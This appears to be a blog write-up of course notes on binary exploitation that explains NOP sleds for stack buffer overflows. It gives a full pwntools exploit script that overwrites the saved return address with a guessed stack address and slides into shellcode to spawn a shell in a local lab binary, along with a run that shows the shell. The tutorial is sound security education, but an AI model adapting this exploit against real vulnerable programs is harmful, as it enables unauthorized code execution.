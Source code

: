 This is part III of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).
# Binary Exploitation Pt. 3: NOP Sleds
If you were to following along in the last part, you would have noticed that the addresses I was referencing are different than the ones you may be seeing.

The difference in addresses on different systems is due mainly to *the environment variables stored by the stack.* If you were to add an environment variable in your system and then re-compile the binary, the addresses would be different.

Even the `$PWD` variable for the current working directory will effect the addresses if you were to run the binary from a different directory.

Because of this *our exploit code is not likely to work on a different target system* because we don't know the exact address our shellcode will be at (even if we place it at the beginning of our injection like last time).

However, *the offsets will be the same*. That's because, as long as the code for the vulnerable program is the same, it compiles into the same binary. So, the length in memory between the `name` variable and the saved RIP on the stack is still 280 bytes.

So, since we can't control for the exact address where our malicious code will end up, we're going to move our shellcode to the end of the injection and 'slide' into it from the saved RIP using NOPs.
## NOP Sleds
In our basic overflow ([part 2](https://trshpuppy.github.io/portfolio/writeups/classic-buffer-overflow) of this series), we overwrote the saved RIP with the exact address of our shellcode (which was placed at the beginning of our injection payload).
![](writeups/writeup-pics/Pasted%20image%2020231121173335.png)
This time, we're still overwriting the saved RIP, but the address we place in there will be a guess. We're going to put an address which, according to our *best guess* is an address within our NOP sled, which is the next part of the injection payload.
### What is a NOP?
'NOP' stands for 'non operational' of 'no operation' and refers to computer instructions in machine language which do nothing. The point of a NOP in assembly is to *not change the state of the program* (although they often take a specific number of clock cycles to execute).

In our architecture, we'll be using the literal `nop operation` which is `b'\x90'`.
### Why NOP?
Because we can't reliably pick an address for our shellcode on the stack we're going to use NOPs in our payload as *executable filler*. Between the end of our 280 `chars` and our exploit code, we'll add a long sequence of NOPs. Then, we'll guess an address that's likely to be in our NOP sled (`0x7fffffffe000`), and overwrite the saved RIP with that address.

This will essentially widen the window of addresses which will capture the CPU for execution. If the address we overwrite the saved RIP with is within the NOP sled, the CPU will enter the sled at that address, begin executing the NOPs and *slide into our shellcode* placed at the end of the NOP sequence. That's why this technique is called a *NOP sled*. 

Using this technique, our payload on the stack will look something like this:
![](writeups/writeup-pics/Pasted%20image%2020231124142229.png)
Compared to our basic overflow (the first image) the shellcode is at the *END* of the NOP sled instead of at the beginning of our payload (at the `name` variable). If we point the CPU to any of the addresses between the saved RIP and the shellcode, our shellcode is guaranteed to get executed. 
### NOP Sled Length
We want our NOP sled to be pretty long so we can *increase the likelihood* that our guessed address will be within the addresses the sled spans. This greatly increases our chance of capturing the CPU's execution flow, even in systems we haven't tested on.
## Re-Writing our Exploit
Our exploit code will now look like this:
```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes 
overflow_offset_rip = 0x118

# we point saved rip to the stack hoping to hit our NOPSLED
new_rip = 0x7fffffffe000

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

NOP_SLED = b"\x90" * 2048

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += NOP_SLED
payload += shellcode 

# connect to the vulnerable program p = process("./vuln_1")
p = process("./vuln_1")

# send the payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```
Compared to our basic overflow code:
1. The `new_rip` is set to the address we're guessing is within the NOP sled.
2. The character filler portion of the shellcode isn't subtracted from to make room for the `shelcode` (since it will be at the end this time).
3. The `NOP_SLED` variable is new and consists of 2048 `nop` operations (`b'\x90'`).
4. The `shellcode` is added to the end of the payload and not the beginning.
## NOP Slide into the Main Frame!
```bash
┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py
[+] Starting local process './vuln_1': pid 1284173
[*] Switching to interactive mode
$ whoami
hakcypuppy
$
```
*Noice!*

In the next part of this series, we'll make our exploit *even more reliable* by using ROP Gadgets!

> Resources

>

> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)

> -   [Wikipedia: NOP](https://en.wikipedia.org/wiki/NOP_(code)

> -  [Wikipedia: NOP Slide](https://en.wikipedia.org/wiki/NOP_slide)

  

> My previous notes:

>

> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)

